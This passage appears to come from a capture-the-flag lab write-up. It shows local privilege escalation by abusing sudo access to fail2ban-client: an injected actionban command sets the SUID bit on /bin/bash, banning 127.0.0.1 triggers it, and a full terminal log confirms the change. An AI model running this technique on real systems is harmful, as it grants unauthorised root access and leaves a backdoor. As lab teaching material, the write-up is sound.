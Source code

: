 #### Step-by-Step Process:

1. Check sudo permissions: Ensures the user has the ability to run `fail2ban-client` as root.  
2. Restart Fail2Ban: Executes `sudo /usr/bin/fail2ban-client restart` to refresh the service.  
 3. Inject Malicious Action: Uses `fail2ban-client set` to replace an existing action with a  command that give a SUID permission to bash
       - Command used:  
```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'chmod u+s /bin/bash'"
```
  4. Ban Localhost (127.0.0.1): Triggers the malicious action by banning an IP, effectively executing the injected command.  
       - Command used:  
```
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```
5. Verify File Extraction: Checks if `/bin/bash` got SUID permssion or not.

```bash
asterisk@ip-10-10-166-6:/home$ ls -al /bin/bash
ls -al /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$ sudo /usr/bin/fail2ban-client restart
sudo /usr/bin/fail2ban-client restart
Shutdown successful
2025-07-01 20:17:57,140 fail2ban.configreader   [3224]: WARNING 'allowipv6' not defined in 'Definition'. Using default one: 'auto'
Server ready
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'chmod u+s /bin/bash'"
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'chmod u+s /bin/bash'"
/bin/bash -c 'chmod u+s /bin/bash'
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'chmod u+s /bin/bash'"
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'chmod u+s /bin/bash'"
/bin/bash -c 'chmod u+s /bin/bash'
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$
asterisk@ip-10-10-166-6:/home$ls -al /bin/bash
ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-166-6:/home$
```
{: .nolineno}
I got the `bash` shell as `SUID permitted` so, lets have EUID root shell 🔻
